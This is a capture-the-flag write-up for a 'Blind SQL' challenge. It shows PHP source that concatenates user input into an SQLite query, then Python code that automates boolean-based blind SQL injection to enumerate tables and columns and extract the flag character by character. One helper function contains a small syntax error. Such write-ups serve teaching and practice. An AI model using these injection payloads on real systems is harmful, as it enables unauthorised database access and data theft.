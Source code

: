 # Why lie: Blind SQL

## Challenge
If someone breaks it all ping me and I'll redploy.

-ProfNinja

[https://bluehens-blindsql.chals.io/](https://bluehens-blindsql.chals.io/)

## Solution
In this challenge, we're only given a link to the website; opening the site, we were greeted with the source code of the challenge:

```php
 <?php

    $dbhandle = new PDO("sqlite:blind.db") or die("Failed to open DB");
    if (!$dbhandle) die ($error);

    $guess = 3;
    if (isset($_GET["guess"])){
      $guess = $_GET["guess"];
    }
    $query = "select * from numbers where value=".$guess;
    $statement = $dbhandle->prepare($query);
    $statement->execute();
    $results = $statement->fetchAll(PDO::FETCH_ASSOC);

    //echo json_encode($results);
    echo highlight_file(__FILE__, true);
    if (count($results) > 0){
        echo "Good guess!";
    } else {
        echo "Nope";
    }
?>
Nope
```

Especially looking at this line of the source code
```php
$query = "select * from numbers where value=".$guess;
```
and considering the name of the challenge, we can assume that we can read the entire database using a boolean based blind SQL injection.

Let's start with some manual enumeration of the database:

### Confirming the SQL injection
By getting `https://bluehens-blindsql.chals.io/?guess='` and receiving the following response, we basically confirmed the SQL injection:
```
 Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1 unrecognized token: "'" in /var/www/html/index.php:11 Stack trace: #0 /var/www/html/index.php(11): PDO->prepare('select * from n...') #1 {main} thrown in /var/www/html/index.php on line 11
```

### The basic query
After confirming that the value `0` results in a `Nope` response by getting
```
https://bluehens-blindsql.chals.io/?guess=0
```
we can start building a basic query: 
```
https://bluehens-blindsql.chals.io/?guess=0 UNION SELECT 1
```
returns `Good guess!`, which confirms that the `numbers` table has exactly one column `value`. (The name of the column is in the original SQL query.)

### Automation
At this point, we can start automating the process:
```python
import requests
import urllib.parse

URI = 'https://bluehens-blindsql.chals.io/?guess=0 UNION '
DEBUG = True

def guess(value):
	RESPONSE_OFFSET = 3949 # Where 'Nope' or 'Good Guess!' will be located
	r = requests.get(url = URI + value)
	answer = r.content[RESPONSE_OFFSET:].decode()
	if DEBUG:
		print(value, '->', answer)
	if answer == 'Good guess!':
		return True
	elif answer == 'Nope':
		return False
	elif 'no such table' in r.content.decode():
		return 'Unknown table'
	else:
		return r.content
```

### Exploring the numbers table
Assuming the `numbers` table has at least one row, we can craft a generic SQL statement, that returns `Good guess!` if and only if a boolean condition holds true:
```sql
select * from numbers where value=0 UNION SELECT 1 FROM numbers WHERE some_boolean_condition
```

Let's confirm this assumption and establish the number of rows in the `numbers` table equals `1` at the same time:
```python
guess("SELECT 1 FROM numbers WHERE (SELECT count(*) FROM numbers) = 1") # True
```

Now let's establish the value of this one entry:
```python
def guess_numeric_value(val):
	return guess("SELECT 1 FROM numbers WHERE (SELECT count(*) from numbers WHERE value > " + str(val) + ") = 1")

def find_number_value():
    # Find the number of digits of the value
	lower_bound = -1
	upper_bound = -1
	for x in range(50): # Assuming the number won't have more than 50 digits
		val = 10 ** x
		g = guess_numeric_value(val)
		if g:
			lower_bound = val
		if not g:
			upper_bound = val
			break
	# Binary search:
	while upper_bound - lower_bound > 1:
		current = (upper_bound + lower_bound) // 2
		g = guess_numeric_value(current)
		if g:
			lower_bound = current
		if not g:
			upper_bound = current
	if DEBUG:
		print(lower_bound, upper_bound)
	return upper_bound

print(find_number_value()) # 1192285233
```
This looks like a random number, so let's explore the database even more.

### Exploring other tables
After confirming the number of tables was bigger than `1`, we managed to fix the table count to `2`.
```python
guess("SELECT 1 FROM numbers WHERE (SELECT count(*) FROM sqlite_schema) > 1") # True
guess("SELECT 1 FROM numbers WHERE (SELECT count(*) FROM sqlite_schema) = 2") # True
```

Now we have to find the name of the unknown table, which requires us to enumerate strings:
```python
# Declare an alphabet for brute forcing strings:
ALPHABET = [chr(x) for x in range(0x20, 0x7F)]
# Remove some characters, that could cause issues and probably are not part of the flag:
ALPHABET.remove('#') # URL hash mark
ALPHABET.remove('&') # URL parameter delimiter
ALPHABET.remove('%') # SQL wildcard character for zero or more characters
ALPHABET.remove("'") # SQL string delimiter
# Because '_' is a wildcard character for a single character in SQL "like" statements, check this one last to ensure the wildcard is used for the literal '_' character; thus remove it from the middle of the list and add it at the end!
ALPHABET.remove("_")
ALPHABET += ['_']

def find_string(base_query_start, base_query_end, val = ''):
	for _ in range(130): # check strings up to length 130
		added_new_char = False
        # check each character of the alphabet
		for x in ALPHABET:
			current = val + x
			query = base_query_start + current + base_query_end
			guess_result = guess(query)
			if guess_result:
                # if the character matches, append it to the current string and continue guessing the next character
				val = current
				added_new_char = True
				break
		if DEBUG:
			print(val)
        # If none of the characters in the ALPHABET worked, we've probably reached the end of the string!
		if not added_new_char:
			break
	return val

def find_table_name():
	base_query_start = "SELECT 1 FROM numbers WHERE (SELECT count(*) FROM sqlite_schema WHERE name != 'numbers' AND name like '"
	base_query_end = "%') = 1"
	return find_string(base_query_start, base_query_end)

find_table_name() # SECRET
```

### Exploring the secret table
After testing for a single row in the `SECRET` table, we managed to fix the row count to `2`.
```python
guess('SELECT 1 FROM numbers WHERE (SELECT count(*) FROM SECRET) = 1') # False
guess('SELECT 1 FROM numbers WHERE (SELECT count(*) FROM SECRET) = 2') # True
```

Then we managed to fix the column count to `1`:
```python
def check_column_count(table_name, expected_count):
	col_count_res = guess("SELECT 1 FROM numbers WHERE (SELECT count(*) FROM (SELECT name FROM PRAGMA_TABLE_INFO('" + table_name + "'))) " + str(expected_count)))
	print('column count = ' + str(expected_count), col_count_res)
	return expected_count == col_count_res

check_column_count('SECRET', 1) # True
```

Let's find the column name:
```python
def find_column_name():
	base_query_start = "SELECT 1 FROM numbers WHERE (SELECT count(*) FROM (SELECT name FROM PRAGMA_TABLE_INFO('SECRET'))) WHERE name like '"
	base_query_end = "%') = 1"
	return find_string(base_query_start, base_query_end)

find_column_name() # FLAG
```

Finally let's enumerate the values of the secret table:
```python
find_string("SELECT 1 FROM numbers WHERE (SELECT count(*) FROM SECRET WHERE flag like '", "%') > 0") # NOT THE FLAG
```

Because we're retrieving the uninteresting value first, let's exclude this hit for the second attempt:
```python
find_string("SELECT 1 FROM numbers WHERE (SELECT count(*) FROM SECRET WHERE flag != 'NOT THE FLAG' AND flag like '", "%') > 0") # UDCTF{L1K3_A_B4T}
```

Now there's just one more caveat: The SQL `like` operator is case insensitive, thus we have to double check the upper-/lowercase notation of the flag:
```python
guess("SELECT 1 FROM numbers WHERE (SELECT count(*) FROM SECRET WHERE flag = 'UDCTF{l1k3_a_b4t}') = 1") # True
```

After confirming the notation of the flag, we can can finally hand it in: `UDCTF{l1k3_a_b4t}`

